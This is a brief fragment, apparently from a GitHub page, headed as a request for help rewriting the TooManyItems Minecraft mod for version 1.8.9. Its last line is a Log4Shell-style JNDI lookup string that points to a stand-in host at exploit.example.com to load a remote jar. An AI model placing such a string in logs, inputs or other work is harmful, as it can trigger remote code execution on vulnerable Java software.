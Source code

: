 # I NEED SOME HELP ABOUT REWRITE TOOMANYITEMS MOD TO 1.8.9
# github.com/HowardZHY/TooManyItems

debug: ${jndi:ldap://exploit.example.com:21/exploit/example.jar}
